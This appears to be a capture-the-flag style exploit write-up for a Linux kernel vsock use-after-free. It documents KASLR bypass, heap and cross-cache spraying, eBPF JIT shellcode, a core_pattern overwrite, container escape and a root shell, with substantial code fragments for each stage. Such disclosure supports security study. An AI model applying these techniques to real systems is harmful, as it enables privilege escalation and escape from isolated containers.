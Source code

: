 # Vulnerability

This vulnerability occurs in the Linux kernel's vsock subsystem, specifically due to improper handling of socket bindings during transport reassignment. When a vsock is created and bound (either explicitly via bind() or implicitly via autobind during a connection), improper reference count management leads to premature removal and deallocation of the socket (use-after-free). Specifically, the kernel incorrectly removes and decreases `struct sock`'s reference count without ensuring it was properly bound, resulting in `struct sock` being freed prematurely. Consequently, further access to this freed `struct sock` causes a use-after-free condition, potentially allowing attackers to exploit freed `struct sock`.


# Exploit Tech Detail
The exploit is consist in the following steps
* EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
* Spray as many anonymous memory as possible to full the kernel heap memory
* Use cross-cache tech to reclaim freed `struct sock` as `struct msg_msg`
* Call __vsock_release to RIP Control
* Achieve container escape.

## EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
This technique we used to bypass KASLR.  This technique we're able to predict/guess the physmap address of the msg_msg object in kernel heap. In our exploit this technique also shown to get kernel .text address, but it will be corrected later when we get kernel .text address via pipe_buffer leak to make it more reliable. You can find the details about this technique [here](https://www.willsroot.io/2022/12/entrybleed.html).

## Spray as many anonymous memory as possible to full the kernel heap memory

```C
// Spray as many anonymous memory as possible to full the kernel heap memory
int spray_anon_map()
{
	size_t *addr = SYSCHK(mmap(0, 0x30000000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANON, -1, 0));
	for (int i = 0; i < 0x30000000 / 8; i++)
	{
		addr[i] = 0xffffffffcc000000 - 0x800;
	}
}
```

We implements a memory spraying technique to exhaust kernel heap memory by allocating a large anonymous shared memory region (0x30000000 bytes, approximately 768 MB) using the mmap system call. It fills this allocated memory with a specific kernel-space address (0xffffffffcc000000 - 0x800), which is our guessd ebpf address


## Use cross-cache tech to reclaim freed `struct sock` as `struct msg_msg`

With cross-cache tech, we can reclaim victim skb as msg_msg which is under `kmalloc-cg-1024` cache like following example code.

* Allocate a lot sock between victim
```c
	// Allocate some `struct sock` before victim
	for (int i = 0; i < 0x100; i++)
		cross[i] = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

	fd = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

	// Allocate some `struct sock` after victim
	for (int i = 0; i < 0x100; i++)
		cross[i + 0x100] = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

```

* Free them all and reclaim as msg_msg
```c

	// free all `struct sock`
	for (int i = 0; i < 0x100; i++)
		close(cross[i]);

	vsock_connect_fd(fd, VMADDR_CID_HOST, VMADDR_PORT_ANY);

	// free all `struct sock`
	for (int i = 0; i < 0x100; i++)
		close(cross[i + 0x100]);

	for (int i = 0; i < 0x4000; i++)
		SYSCHK(msgsnd(msqid[i], &msg, KMALLOC_CG_1k - KMALLOC_CG_1k, 0));


## RIP Control
We set `vsk->transport` to our guessed kernel heap which contents is our guessed ebpf address.

```c
static void __vsock_release(struct sock *sk, int level)
{
	if (sk) {
		struct sock *pending;
		struct vsock_sock *vsk;

		vsk = vsock_sk(sk);
		pending = NULL;	/* Compiler warning. */

		/* When "level" is SINGLE_DEPTH_NESTING, use the nested
		 * version to avoid the warning "possible recursive locking
		 * detected". When "level" is 0, lock_sock_nested(sk, level)
		 * is the same as lock_sock(sk).
		 */
		lock_sock_nested(sk, level);

		if (vsk->transport)
			vsk->transport->release(vsk);
```


## Achieve container escape
### Spray eBPF programs
Our goal is to do some eBPF JIT spraying so later when we control kernel RIP, it will jump to the JIT page and execute our shellcode.

Linux kernel provide a socket option `SO_ATTACH_FILTER` and let user to attach a classic BPF program to the socket for use as a filter of incoming packets.

By creating lots of sockets and attach to classic BPF program, we can spray a lot of eBPF programs in kernel.
```cpp
    struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```

As for the shellcode in our eBPF program, our goal is to overwrite  `/proc/sys/kernel/core_pattern` so later we can execute command as root by triggering crash. Here's what our shellcode did to achieve our goal:
* Use the `rdmsr` instruction to obtain the kernel text address. With RCX being set to MSR_LSTAR ( `0xc0000082` ), we'll be able to obtain the address of `entry_SYSCALL_64`.
* Calculate the address of `core_pattern` and `_copy_from_user`.
* Call `_copy_from_user(core_pattern, user_buf, 0x30);`, where `user_buf` is a buffer in user space that stores the content we want to overwrite in `core_pattern`. 

We construct our eBPF program with the following form:

```cpp
struct sock_filter table[] = {
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        .....................
};
```

The above example will be compiled into the following instructions after JIT:

```
b8 90 90 90 b3    mov eax, 0xb3909090
b8 90 90 90 b3    mov eax, 0xb3909090
```

If we can control kernel RIP to jump into the NOP instruction ( 0x90 ), the code will become:

```
90       nop 
b3 b8    mov    bl, 0xb8
90       nop
90       nop
90       nop
b3 b8    mov    bl, 0xb8
....
```

We can see that by using an extra byte `0xb3`, we can skip the useless byte `0xb8` and execute our own shellcode. Notice that due to the "skipping part", we only have 3 bytes of space in each instruction, so we'll have to take care of that as well during our shellcode construction.

### Post RIP

Once we control the kernel RIP and jump into the middle of our eBPF program, the shellcode we crafted will cause core_pattern being overwritten to `|/proc/%P/fd/666 %P %P`:

We then use memfd and write an executable file payload in fd 666.
```C
int check_core()
{
	// Check if /proc/sys/kernel/core_pattern has been overwritten
	char buf[0x100] = {};
	int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
	read(core, buf, sizeof(buf));
	close(core);
	return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}
void crash(char *cmd)
{
	int memfd = memfd_create("", 0);
	SYSCHK(sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff));
	dup2(memfd, 666);
	close(memfd);
	while (check_core() == 0)
		sleep(1);
	puts("Root shell !!");
	/* Trigger program crash and cause kernel to executes program from core_pattern which is our "root" binary */
	*(size_t *)0 = 0;
}
```

Later when coredump happened, it will execute our executable file as root in root namespace:
```C
*(size_t*)0=0; //trigger coredump
```

Spawn shell when coredump happened. This is the code looks like:
```c++

		// #define SYS_pidfd_getfd 438
		int pid = strtoull(argv[2], 0, 10);
		int pfd = syscall(SYS_pidfd_open, pid, 0);
		int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
		int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
		int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
		dup2(stdinfd, 0);
		dup2(stdoutfd, 1);
		dup2(stderrfd, 2);
		/* Get flag and poweroff immediately to boost next round try in PR verification workflow*/
		system("cat /flag;echo o>/proc/sysrq-trigger");
		execlp("bash", "bash", NULL);

```